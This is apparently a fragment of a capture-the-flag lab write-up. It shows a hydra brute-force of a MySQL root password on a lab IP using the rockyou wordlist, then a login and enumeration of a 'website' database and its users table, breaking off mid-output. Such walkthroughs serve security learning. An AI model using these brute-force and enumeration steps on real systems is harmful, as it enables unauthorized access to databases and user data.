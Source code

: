 ```bash

```



<h3>hydra</h3>

```bash
:~/Brute# hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.4.197 mysql -V -t 64
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
...
[3306][mysql] host: 10.10.4.197   login: root   password: rockyou
1 of 1 target successfully completed, 1 valid password found
...
```

```bash
:~/Brute#  sudo apt update
...
:~/Brute#  sudo apt install mysql-server
...
:~/Brute# sudo systemctl start mysql.service
:~/Brute# mysql -h 10.10.4.197 -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 92
Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.00 sec)

mysql> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.00 sec)

mysql> describe users;
+------------+--------------+------+-----+-------------------+-------------------+
| Field      | Type         | Null | Key | Default           | Extra             |
+------------+--------------+------+-----+-------------------+-------------------+
```